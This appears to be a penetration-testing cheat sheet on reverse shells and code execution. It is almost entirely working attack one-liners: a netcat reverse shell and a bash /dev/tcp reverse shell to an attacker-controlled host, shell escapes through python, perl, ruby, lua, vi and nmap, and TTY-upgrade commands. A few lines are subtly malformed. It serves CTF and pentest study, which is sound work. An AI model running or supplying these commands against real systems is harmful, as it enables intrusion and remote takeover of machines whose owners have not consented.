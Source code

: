 # Reverse Shell-Fu / Code Execution
To generate payloads / netcat shells, here are some hints that have been helpful.

## PHP LFI Execution

## Netcat
    nc -nvv $MYIP $PORT -e /bin/bash
    
## Reverse Shell without netcat:

    bash -i >& /dev/tcp/$MYIP/80 0>&1

##  Upgrade a shell:
```
	python -c 'import pty; pty.spawn("/bin/bash")'
	python3 -c 'import pty; pty.spawn("/bin/bash")'
	echo os.system('/bin/bash')
	/bin/sh -i
	perl —e 'exec "/bin/sh";'
	perl: exec "/bin/sh";
	ruby: exec "/bin/sh"
	lua: os.execute('/bin/sh')
	# (From within IRB)
		exec "/bin/sh"
	# (From within vi)
		:!bash
	# (From within vi)
		:set shell=/bin/bash:shell
	# (From within nmap)
		!sh
```

## Upgrade even harder!
Want tab completion and even more convenience? You can then ctrl-z and do:
```
stty -a | head -n1
stty raw -echo 
fg
export SHELL=/bin/bash
export TERM=xterm-256color

stty rows X columns Y

export HOME=/var/www
```



